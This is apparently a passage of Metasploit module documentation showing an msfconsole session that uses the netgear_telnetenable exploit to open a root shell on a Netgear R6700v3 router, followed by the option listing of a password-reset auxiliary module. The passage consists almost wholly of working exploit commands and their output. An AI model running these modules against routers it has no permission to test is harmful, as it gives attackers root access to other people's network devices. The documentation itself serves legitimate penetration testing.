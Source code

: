 Browsed to admin page and changed password to `testing123`, then in a new `msfconsole`
session running as `root`, entered the following commands:

```
    msf > use exploit/linux/telnet/netgear_telnetenable
    [*] No payload configured, defaulting to cmd/unix/interact
    msf exploit(linux/telnet/netgear_telnetenable) > set username admin
    username => admin
    msf exploit(linux/telnet/netgear_telnetenable) > set password testing123
    password => testing123
    msf exploit(linux/telnet/netgear_telnetenable) > set MAC D56C89FC94C9
    MAC => D56C89FC94C9
    msf exploit(linux/telnet/netgear_telnetenable) > set RHOSTS 192.168.1.1
    RHOSTS => 192.168.1.1
    msf exploit(linux/telnet/netgear_telnetenable) > exploit
    
    [+] 192.168.1.1:23 - Detected telnetenabled on UDP
    [+] 192.168.1.1:23 - Using creds admin:testing123
    [*] 192.168.1.1:23 - Generating magic packet
    [*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
    [*] 192.168.1.1:23 - Sending magic packet
    [*] 192.168.1.1:23 - Disconnecting from telnetenabled
    [*] 192.168.1.1:23 - Waiting for telnetd
    [*] 192.168.1.1:23 - Connecting to telnetd
    [*] Found shell.
    [*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.1:23) at 2020-06-30 15:57:33 -0500
    
    
    
    Login incorrect
     login: admin
    admin
    Password: testing123
    
    
    
    BusyBox v1.7.2 (2019-10-19 12:12:12 CST) built-in shell (ash)
    Enter 'help' for a list of built-in commands.
    
    # id
    id
    uid=0(admin) gid=0(root)
    # uname -a
    uname -a
    Linux R6700v3 2.6.36.4brcmarm+ #17 SMP PREEMPT Sat Oct 19 11:17:27 CST 2019 armv7l unknown
    #
```

### Netgear R6700v3 firmware version V1.0.0.4.82_10.0.57

```
    msf > use auxiliary/admin/http/netgear_r6700_pass_reset
    msf auxiliary(admin/http/netgear_r6700_pass_reset) > show options
    
    Module options (auxiliary/admin/http/netgear_r6700_pass_reset):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT    5000             yes       The target port (TCP)
       SSL      false            no        Negotiate SSL/TLS for outgoing connections
       VHOST                     no        HTTP server virtual host
```